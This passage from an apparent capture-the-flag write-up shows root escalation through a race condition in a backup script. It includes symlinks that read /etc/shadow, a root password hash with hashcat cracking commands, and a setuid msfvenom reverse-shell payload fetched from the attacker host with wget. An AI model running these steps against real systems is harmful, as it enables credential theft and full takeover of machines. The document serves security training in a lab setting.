/var/www/html/webservices/monstra-3.0.4/sitemap.xml
/var/www/html/webservices/monstra-3.0.4/storage/pages/1.page.txt
```

Trying to make a symlink to `/etc/shadow` does not work since the files are owned by `root` and cannot be deleted:

```bash
ln -sfn /etc/shadow /var/www/html/webservices/monstra-3.0.4/storage/pages/1.page.txt
```

Instead of modifying the archive before it is made, try to modify it during the 30 second window when the script is waiting for the `tar` to finish. Then replace the archive with one that contains symlinks to protected system files like `/etc/shadow` and have `root` extract them and report the `diif` in `/var/backups/onuma_backup_error.txt`:

- **NOTE:** The archive must contain filenames that exist in the other archives in order for them to be compared with `diff` and show the file contents

```bash
# create stager with system files to view
cd /var/tmp/
mkdir -p bubba/var/www/html/
ln -sfn /etc/shadow bubba/var/www/html/index.html
ln -sfn /root/root.txt bubba/var/www/html/robots.txt
cd bubba
tar -zcvf bubba.tar .
cd ../
mv ./bubba/bubba.tar .
# loop until output is seen
BEFORE=$(ls -la /var/tmp)
while true; do
  AFTER=$(ls -la /var/tmp)
  CHECK=$(diff <(echo "$BEFORE" ) <(echo "$AFTER"))
  if [[ $CHECK ]]; then
    echo "$CHECK"
    break
  fi
  sleep 1
done
```

Eventually this loop will break once the task is started and output the following:



Subsitute the hash value with the temp archive name from the output of the bash loop during the 30 second window:

```bash
# run as onuma since the archive is owned by that user!
cp /var/tmp/bubba.tar /var/tmp/.9b5f55c7a1cae89d73cc6597b824e3acb09fbd8c
```

Then check the contents of `onuma_backup_error.txt` to see the following:

```bash
cat /var/backups/onuma_backup_error.txt
```



Nice! That is the contents of `root.txt` at the bottom and the hash for `root`. Try to crack it:

```bash
echo '$6$AKRzYZby$Q88P1RTNm6Ho39GencM8qFL8hkhF0GmIhYAdxlIuHVv50BTTXvIH2rzgWOCkZOQDSuWo6gWQ2gXoePj8Rwthm0' > root.hash
hashid root.hash # SHA-512 Crypt
hashcat --help | grep SHA512 # 1800 | sha512crypt $6$, SHA512 (Unix)
hashcat -m 1800 -a 0 --quiet --force --potfile-disable root.hash rockyou.txt
```

But this does not return any easy wins... Not sure what the next step is here... This vulnerability allows for reading any file on the system but how to use this for a `root` shell? The key here is that the Bash script creates the directory `/var/tmp/check` as `root` and does not delete that directory until the next script execution _if_ the integrity match fails. This means, a SUID binary can be added into the archive on Kali and extracted as `root` into `/var/tmp/check` on the target. Then, after the integrity match fails, the file will exist until the next execution and allow for a `root` shell to be made as long as the payload calls `setuid()`:

```bash
# run on kali
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         PrependSetuid=true \
         -f elf \
         -o bubba.root.elf
sudo chown root:root bubba.root.elf
sudo chmod u+s bubba.root.elf
sudo chmod +x bubba.root.elf
mkdir -p var/www/html/
mv bubba.root.elf var/www/html/
tar -zcvf gump.tar var
nc -nvlp 7777
sudo python3 -m http.server 80
# run on target as onuma
wget -O /var/tmp/gump.tar 10.10.14.25/gump.tar
```

Now start the same Bash while loop waiting for the script to run:

```bash
BEFORE=$(ls -la /var/tmp)
while true; do
  AFTER=$(ls -la /var/tmp)
  CHECK=$(diff <(echo "$BEFORE" ) <(echo "$AFTER"))
  if [[ $CHECK ]]; then
    echo "$CHECK"
    break
  fi
  sleep 1
done
```

Then once the Bash while loop exits, copy over the new TAR payload as before and wait a few seconds for the `check` directory to appear. Then run the `bubba.root.elf` from the check directory:



And this returns a shell as `root`:



